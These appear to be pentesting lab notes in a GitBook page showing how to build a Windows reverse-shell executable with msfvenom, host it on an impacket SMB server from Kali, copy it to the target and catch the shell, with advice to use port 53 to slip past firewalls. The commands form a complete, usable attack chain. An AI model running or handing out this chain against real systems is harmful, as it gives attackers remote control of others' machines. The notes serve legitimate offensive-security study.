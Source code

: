 # Reverse Shell

### Generate Reverse Shell Executable (on Kali)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=53 -f exe -o reverse.exe
```

We use `port-53` to try hidden from firewall and in more devices this port is already open

### Transfer reverse.exe to Windows via SMB

we choose this port because is already open on the machine

![image.png](<../../../.gitbook/assets/image (34).png>)

### Start SMB Server on Kali:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

### On Windows (CMD), copy the file:

```
copy \\10.21.218.60\kali\reverse.exe C:\PrivEsc\reverse.exe
```

**then open listener and run shell on windows**

<figure><img src="../../../.gitbook/assets/image 1 (19).png" alt=""><figcaption></figcaption></figure>

### Important Notes:

* Do **not delete** `reverse.exe` – it will be reused in other tasks.
* **Ensure no firewall blocks the connection.**
* Use a commonly open port (like 53, 443, etc.) for better reliability.

